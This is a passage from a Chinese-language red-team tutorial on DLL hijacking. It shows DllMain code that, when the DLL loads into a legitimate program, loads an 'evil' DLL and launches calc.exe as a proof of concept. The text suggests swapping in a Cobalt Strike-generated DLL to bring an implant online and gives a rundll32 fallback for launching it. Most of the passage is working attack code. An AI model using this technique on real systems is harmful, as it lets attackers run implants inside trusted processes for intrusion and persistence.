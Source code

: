 再弹出计算器，并执行原程序调用的功能1+2=3 和弹出OLD。

![](images/13.jpg)

ps: 当然这里除了加载exe，加载cs 生成的dll什么的也是可以的。(推荐用64位dll)
	
	if (dwReason == DLL_PROCESS_ATTACH)
		{
			DisableThreadLibraryCalls(hModule);
	
			::MessageBox(NULL, TEXT("OK"), TEXT("OK"), MB_OK);
			STARTUPINFO si = { sizeof(si) };
			PROCESS_INFORMATION pi;
			HINSTANCE hDllInst;
			hDllInst = LoadLibrary(L"system.dll"); //调用evil DLL
			CreateProcess(TEXT("C:\\WINDOWS\\System32\\calc.exe"), NULL, NULL, NULL, false, 0, NULL, NULL, &si, &pi);
		}

效果如下：

![](images/14.png)

如果上面的方法上线出问题(假上线)，也可以使用执行cmd命令的方式，使用rundll32调用 dll。

	C:\\WINDOWS\\System32\\rundll32.exe 对应调用64位dll
	C:\\WINDOWS\\SysWoW64\\rundll32.exe 对应调用32位dll

cmd 执行 rundll32 默认调用64位的。

	WCHAR lpPath[] = L"C:\\WINDOWS\\System32\\rundll32.exe .\\system.dll Start";
	CreateProcess(NULL, lpPath, NULL, NULL, false, 0, NULL, NULL, &si, &pi);

